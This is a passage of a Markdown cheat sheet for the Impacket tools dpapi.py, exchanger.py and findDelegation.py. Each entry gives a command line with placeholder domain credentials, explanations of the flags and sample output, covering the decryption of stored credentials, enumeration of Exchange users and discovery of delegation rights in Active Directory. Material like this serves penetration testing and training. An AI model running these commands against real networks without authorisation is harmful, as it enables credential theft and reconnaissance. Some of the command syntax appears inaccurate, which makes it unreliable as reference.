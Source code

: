 ### 4. dpapi.py
**Purpose**: Decrypts DPAPI-protected data (e.g., credentials, browser data).

**Usage Example**:
```bash
impacket-dpapi -dc-ip 192.168.1.100 -masterkey {GUID}:KEY example.local/user1:Password123@192.168.1.101
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-masterkey {GUID}:KEY`: Specifies the DPAPI master key to decrypt.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.

**Example Output**:
```
[*] Decrypted data: credential=secret123
```

**Use Case**: Extracts sensitive data from protected storage.

### 5. exchanger.py
**Purpose**: Abuses Microsoft Exchange services via RPC over HTTP (e.g., NSPI attacks).

**Usage Example**:
```bash
impacket-exchanger -dc-ip 192.168.1.100 nspi example.local/user1:Password123@192.168.1.101
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `nspi`: Module for NSPI interface attacks.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.

**Example Output**:
```
[*] Enumerated Exchange users: user1@example.local, user2@example.local
```

**Use Case**: Enumerates Exchange user data for reconnaissance.[](https://tools.thehacker.recipes/impacket)

### 6. findDelegation.py
**Purpose**: Identifies accounts with delegation privileges (unconstrained, constrained, RBCD).

**Usage Example**:
```bash
impacket-findDelegation -dc-ip 192.168.1.100 example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `example.local/user1:Password123`: Credentials for enumeration.

**Example Output**:
```
[*] Accounts with unconstrained delegation: server01$
[*] Accounts with constrained delegation: user2
```
